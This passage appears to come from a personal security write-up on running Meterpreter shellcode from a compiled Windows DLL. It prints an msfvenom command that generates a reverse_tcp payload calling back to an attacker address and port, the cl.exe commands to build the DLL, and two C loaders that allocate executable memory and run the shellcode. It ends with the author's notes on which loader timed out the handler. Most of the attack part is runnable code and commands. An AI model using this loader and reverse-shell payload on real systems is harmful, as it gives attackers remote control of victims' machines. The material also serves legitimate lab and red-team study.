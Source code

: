 `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=4444 -f c > code.c`

The shellcode is then embedded in a simple c file and compiled as a DLL with cl 

`cl.exe /O2 /D_USRDLL /D_WINDLL hook.c /MT /link /DLL /OUT:Hook.dll`

Also, as described [here](https://stackoverflow.com/questions/1130479/how-to-build-a-dll-from-the-command-line-in-windows-using-msvc), the same can be achieved with just `cl /LD <files>`

The shellcode execution in an exe file can either be done by specifying the code location as the starting point for a new thread like so:

```c
    exec = VirtualAlloc(0, lensh, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	RtlMoveMemory(exec, shellcode, lensh);
	VirtualProtect(exec, lensh, PAGE_EXECUTE_READ, &oldprotect);
	thread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec, 0, 0, 0);
	WaitForSingleObject(thread, 0);
```



or by casting it to a function pointer and invoking that function.

```c
    exec = VirtualAlloc(0, lensh, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	memcpy(exec, shellcode, lensh);
    VirtualProtect(exec, lensh, PAGE_EXECUTE_READ, &oldprotect);
	((void(*)())exec)();
```


The latter didn't work for me and timed out the msfconsole handler, but only when compiled as a DLL! When compiling the code as an .exe the shellcode worked just fine. Not sure why this is. Changing threading compilation flags was my first guess but did not seem to solve the issue.

This is the output of the handler when trying to connect:

![](/assets/images/winhook/dll_code_nonThreadedShellcodeStart.png)
